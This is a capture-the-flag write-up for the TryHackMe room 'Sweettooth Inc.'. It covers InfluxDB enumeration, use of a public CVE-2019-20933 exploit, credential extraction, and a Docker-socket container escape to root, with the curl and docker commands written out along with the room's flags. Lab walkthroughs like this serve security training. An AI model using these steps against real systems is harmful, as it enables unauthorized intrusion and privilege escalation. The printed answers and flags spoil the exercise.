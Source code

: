 ```yaml
---
title: Sweettooth Inc.
layout: post
author: Bit Criminals Team
date: 2021-07-25 20:00:00 +0530
type: Pentesting
difficulty: Medium
prompt: https://tryhackme.com/room/sweettoothinc
---
```



On enumerating we get the following three open ports.

![](/images/leo/nmap.png)  
 
```
Do a TCP portscan. What is the name of the database software running on one of these ports?
influxdb
```

On looking for influxdb vulnerbilities I found this resource <https://github.com/c-sh0/security/blob/master/influxdb.txt>

Using the url <10.10.127.163:8086/debug/requests>

![](/images/leo/user1.png)

```
What is the database user you find?
o5yY6yya
```

We can get access to the database following the above resource but I found this script 
<https://github.com/LorenzoTullini/InfluxDB-Exploit-CVE-2019-20933>

Running the script 

![](/images/leo/script.png)

Also found this very helpful cheatsheet for influxdb <https://gist.github.com/tomazursic/6cc217e2644c619ceceefb8ce824925b>

Filling in the database as ``` tanks ```

Using the query as ``` SHOW MEASUREMENTS ```

![](/images/leo/tanks.png)

Then using the query ``` SELECT * FROM water_tank ```
Gives us the temperatures of water tank at diffrent time

Using <https://www.epochconverter.com/> to convert the timestamp to human readable date time format 

![](/images/leo/epoch.png)

```
What was the temperature of the water tank at 1621346400 (UTC Unix Timestamp)?
22.5
```
Now we use exit to change our database and fill in ``` mixer ```

Using the query ``` SHOW MEASUREMENTS ```

![](/images/leo/mixer.png)

Then using the query as ``` SELECT * FROM mixer_stats ```
Gives us the motor rpm at different time 
Looking through them we find the highest rpm 

```
What is the highest rpm the motor of the mixer reached?
4875
```

Again we change the database to ``` creds ```
Using the query ``` SHOW MEASUREMENTS ``` 

![](/images/leo/creds.png)

Then using the query as ``` SELECT * FROM ssh ```

![](/images/leo/ssh.png)

```
What username do you find in one of the databases?
uzJk6Ry98d8C
```

Now that we have the username and password we can ssh into the machine

```
ssh uzJk6Ry98d8C@10.10.127.163 -p 8086
```

Now we can read the user.txt

```
user.txt
THM{V4w4FhBmtp4RFDti}
```

Running linpeas tells us that we ```write permission over docker socket /run/docker.sock```
But we cannot use the docker command 

We find this resource <https://securityboulevard.com/2019/02/abusing-docker-api-socket/>

Basically we are going to create a container on the Nginx and then gain root access through it.

Using the command 
``` curl –insecure -X POST -H "Content-Type: application/json" http://127.0.0.1:2376/containers/create?name=test -d '{"Image":"sweettoothinc", "Cmd":["/usr/bin/tail", "-f", "1234", "/dev/null"], "Binds": [ "/:/mnt" ], "Privileged": true}' ```

Returns the id of our container
```{"Id":"39d4cf768ec3fae31a9af685cefcba1244a351acb88841a5c822e7bceb4009d3","Warnings":null}
```

Now we start the container using
```
curl –insecure -X POST -H "Content-Type: application/json" http://127.0.0.1:2376/containers/39d4cf768ec3fae31a9af685cefcba1244a351acb88841a5c822e7bceb4009d3/start?name=test
```

We gain root shell using the command
```
docker -H 127.0.0.1:2376 exec -it 39d4cf768ec3 /bin/bash
```

And viola we are root now

```
root@39d4cf768ec3:/# whoami
root
root@39d4cf768ec3:/# cd /root
root@39d4cf768ec3:/root# ls
root.txt
root@39d4cf768ec3:/root# cat root.txt
```
```
/root/root.txt
THM{5qsDivHdCi2oabwp}
```

Looking into the /mnt directory we find another root directory

```
root@39d4cf768ec3:/mnt/var/lib/docker# cd /mnt
root@39d4cf768ec3:/mnt# ls
bin   etc         initrd.img.old  lost+found  opt   run   sys  var
boot  home        lib             media       proc  sbin  tmp  vmlinuz
dev   initrd.img  lib64           mnt         root  srv   usr  vmlinuz.old
root@39d4cf768ec3:/mnt# cd root
root@39d4cf768ec3:/mnt/root# ls
root.txt
root@39d4cf768ec3:/mnt/root# cat root.txt
```

```
The second /root/root.txt
THM{nY2ZahyFABAmjrnx}
```




